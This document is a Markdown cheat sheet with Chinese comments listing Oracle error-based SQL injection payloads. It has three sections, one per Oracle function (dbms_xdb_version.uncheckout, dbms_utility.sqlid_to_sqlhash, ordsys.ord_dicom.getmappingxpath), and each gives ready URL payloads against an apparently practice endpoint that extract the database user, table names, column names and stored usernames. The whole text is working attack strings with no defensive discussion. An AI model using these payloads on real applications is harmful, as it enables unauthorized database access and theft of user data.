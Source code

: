 ## dbms_xdb_version.uncheckout ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## dbms_utility.sqlid_to_sqlhash ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## ordsys.ord_dicom.getmappingxpath ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```
